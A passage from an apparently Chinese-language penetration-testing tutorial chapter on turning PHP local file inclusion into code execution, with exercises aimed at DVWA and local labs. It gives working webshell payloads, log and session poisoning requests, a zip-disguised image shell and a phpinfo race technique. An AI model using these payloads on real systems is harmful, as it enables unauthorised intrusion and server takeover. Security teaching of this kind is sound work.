
---

### 案例2：Apache日志包含GetShell

**场景描述：**
某网站存在LFI漏洞，
但是 `allow_url_include` 是关闭的，
php://input用不了。
服务器是Apache。

**利用过程：**

**1. 确认LFI漏洞**
```
?file=../../../../etc/passwd
```
能读到，确认有LFI。

**2. 猜日志路径**
先试最常见的：
```
?file=../../../../var/log/apache2/access.log
```
能读到，太好了！

**3. 往日志里写PHP代码**

用Burp Suite改请求的User-Agent：
```http
GET / HTTP/1.1
Host: target
User-Agent: <?php @eval($_POST['cmd']); ?>
...
```

发几次请求，
确保日志里写入了我们的代码。

或者用curl：
```bash
curl -A "<?php @eval(\$_POST['cmd']); ?>" http://target/
```

**4. 包含日志文件**
```
?file=../../../../var/log/apache2/access.log
```

**5. 连接Shell**
日志中的PHP代码被执行了，
现在这个页面就是一个一句话木马，
POST参数cmd就是密码。

用蚁剑/菜刀连接：
- URL: `http://target/index.php?file=../../../../var/log/apache2/access.log`
- 密码: `cmd`
- 类型: PHP eval

连接成功！
拿到WebShell！

**6. 后续操作**
- 查看权限
- 提权
- 内网渗透
- ...

---

### 案例3：Session包含GetShell

**场景描述：**
某网站有登录功能，
用户登录后用户名会存在session里。
网站存在LFI漏洞。

**利用过程：**

**1. 确认LFI**
```
?file=../../../../etc/passwd
```
确认有LFI。

**2. 注册账号，用户名写PHP代码**
注册一个用户，
用户名为：
```
<?php system($_GET['c']); ?>
```

（如果注册限制了用户名长度或字符，
试试其他输入点，比如个人简介、搜索框等）

**3. 登录这个账号**
登录后，
session里就会存上用户名，
也就是我们的PHP代码。

**4. 获取PHPSESSID**
看浏览器Cookie，
比如PHPSESSID= `abc123def456`。

**5. 猜session存储路径**
试常见路径：
```
?file=../../../../tmp/sess_abc123def456
```
或者：
```
?file=../../../../var/lib/php/sessions/sess_abc123def456
```

**6. 执行命令**
如果成功包含，
就可以执行命令了：
```
?file=../../../../tmp/sess_abc123def456&c=whoami
```

**7. 进一步利用**
- 写一句话
- 反弹Shell
- 提权

---

### 案例4：zip://伪协议利用

**场景描述：**
某网站有文件上传功能，
只能上传图片，
而且上传后会检查文件内容（必须是真图片）。
网站同时存在LFI漏洞。

**利用过程：**

**1. 准备一句话木马**
shell.php：
```php
<?php @eval($_POST['cmd']); ?>
```

**2. 制作图片马zip**
- 先找一张正常的图片，比如test.jpg
- 把shell.php压缩成shell.zip
- 然后把zip伪装成图片：
  ```
  copy /b test.jpg + shell.zip test_img.zip
  ```
  （Windows下）
  或者Linux下：
  ```
  cat test.jpg shell.zip > test_img.jpg
  ```

**3. 上传图片马**
上传test_img.jpg，
因为前面是真图片，
文件头检测能过。

**4. 知道上传路径**
假设上传到了 `upload/test_img.jpg`

**5. 用zip://包含**
```
?file=zip://upload/test_img.jpg%23shell.php
```
（#是zip包内文件分隔符，需要URL编码为%23）

**6. 代码执行！**
zip包里的shell.php被包含执行了，
成功GetShell！

---

### 案例5：LFI配合PHPINFO拿Shell

**场景描述：**
某网站存在LFI漏洞，
还有一个phpinfo.php页面。

**利用过程：**

（这个方法利用PHP上传临时文件，
比较复杂，
新手了解一下就行）

**原理：**
PHP处理文件上传的时候，
会生成一个临时文件，
存在 `/tmp/phpXXXXXX`（XXXXXX是随机字符）。
请求结束后临时文件会被删除。

phpinfo页面会显示临时文件的路径。
所以我们可以：
1. 同时上传一个文件 + 请求phpinfo
2. 从phpinfo的输出中找到临时文件名
3. 在临时文件被删除前，用LFI包含它
4. 执行代码

**关键：**
- 需要条件竞争，在临时文件删除前包含
- 可以用脚本大量并发请求

（这个方法比较进阶，
新手先知道有这么个东西就行）

---

## ✏️ 课后习题

### 选择题

1. 以下哪个伪协议可以用来读取PHP文件的源码？
   - A. php://input
   - B. php://filter
   - C. php://stdin
   - D. data://

2. php://filter读取源码时，最常用的过滤器是？
   - A. string.toupper
   - B. convert.base64-encode
   - C. zlib.deflate
   - D. string.strip_tags

3. 以下哪个伪协议可以直接执行PHP代码（需要allow_url_include=On）？
   - A. php://filter
   - B. php://input
   - C. file://
   - D. php://memory

4. 日志包含的原理是什么？
   - A. 日志文件本身就是PHP文件
   - B. 往日志里写PHP代码，然后包含日志文件执行
   - C. 日志文件有解析漏洞
   - D. 日志文件权限配置错误

5. 以下哪个方法**不需要**开启allow_url_include？
   - A. php://input
   - B. data://
   - C. php://filter读取源码
   - D. 远程文件包含RFI

### 填空题

1. 用php://filter读取PHP源码的格式是：php://filter/_______/resource=文件名。

2. 日志包含中，通常修改HTTP头的 _______ 字段来注入PHP代码。

3. PHP session文件的前缀是 _______。

4. zip://伪协议中，用 _______ 符号（URL编码后是%23）来分隔压缩包路径和包内文件。

5. %00空字节截断只在PHP版本小于 _______ 时有效。

### 简答题

1. 简述php://filter的作用和使用方法。为什么它能读取PHP源码？

2. 简述日志包含GetShell的原理和步骤。

3. 简述session包含GetShell的原理和步骤。

4. 列举至少5种从LFI（本地文件包含）到RCE（远程代码执行）的方法。

5. php://input和php://filter有什么区别？各自的利用条件是什么？

### 实操题

1. 在DVWA靶场中练习File Inclusion，尝试用php://filter读取DVWA的配置文件。

2. 搭建本地环境，练习日志包含GetShell。

3. 练习使用zip://伪协议包含压缩包中的PHP文件。

4. 练习session包含GetShell（有条件的话）。

5. 总结一下LFI到RCE的各种方法，写一个cheat sheet。

---

## 📝 本章小结

这一章我们学习了文件包含漏洞的进阶利用，
内容非常丰富，
让我们来总结一下：

### PHP伪协议
- **php://filter**：读取PHP源码（base64编码），无特殊要求，有后缀也能用
- **php://input**：执行PHP代码，需要allow_url_include=On，有后缀不能用
- **phar://**：访问phar归档，PHP >= 5.3.0
- **zip://**：访问zip压缩包，上传zip图片马然后包含
- **data://**：数据URI执行代码，需要allow_url_include=On

### LFI到RCE的方法
1. **配合文件上传**：上传图片马然后包含
2. **日志包含**：往Apache/Nginx日志写代码然后包含
3. **session包含**：往session写代码然后包含
4. **php://input**：直接执行POST数据（需allow_url_include=On）
5. **data://**：直接执行数据URI中的代码（需allow_url_include=On）
6. **zip:// / phar://**：上传压缩包然后包含
7. **/proc/self/environ**：老版本Linux可能可用
8. **临时文件包含 + phpinfo**：条件竞争包含临时文件

### 截断技巧
- **%00截断**：PHP < 5.3.4
- **路径长度截断**：Windows/Linux老版本
- **问号截断**：仅RFI可用

### 核心思路
> 找到一个你能控制内容的文件，
> 然后用LFI包含它！

下一章我们会学习文件包含漏洞的总结与防御，
以及更多关于文件包含的高级技巧和实战经验。
敬请期待！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day034-advanced-文件包含基础)
- [➡️ 下一章：---](/redteam/day036-advanced-文件包含模块总结)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
